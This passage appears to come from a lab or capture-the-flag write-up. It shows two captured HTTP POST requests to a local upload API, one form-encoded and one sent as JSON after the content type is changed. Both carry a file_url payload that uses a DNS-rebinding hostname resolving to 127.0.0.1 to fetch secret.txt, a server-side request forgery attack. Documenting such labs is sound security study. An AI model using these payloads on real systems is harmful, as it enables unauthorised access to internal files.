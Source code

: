 the request before changing content type&#x20;

```
POST /api/v3/upload HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://127.0.0.1
DNT: 1
Sec-GPC: 1
Connection: close
Referer: http://127.0.0.1/
Cookie: uuid_hash=8f282a4de56b5a379083e16339d84cd9bee0f64503f9159c5ca7a89f2484a121cae32d23afed9fc673225e1b1ac4beb468964e832a8ef43a2758a475aa2703ed
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: red
Priority: u=0, i

file_url=http://7f000001.d83ad3ce.rbndr.us/secret.txt
```

after changing content type&#x20;

```
POST /api/v3/upload HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Length: 59
Origin: http://127.0.0.1
DNT: 1
Sec-GPC: 1
Connection: close
Referer: http://127.0.0.1/
Cookie: uuid_hash=8f282a4de56b5a379083e16339d84cd9bee0f64503f9159c5ca7a89f2484a121cae32d23afed9fc673225e1b1ac4beb468964e832a8ef43a2758a475aa2703ed
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: red
Priority: u=0, i
Content-Type: application/json;charset=UTF-8

{"file_url":"http://7f000001.d83ad3ce.rbndr.us/secret.txt"}
```
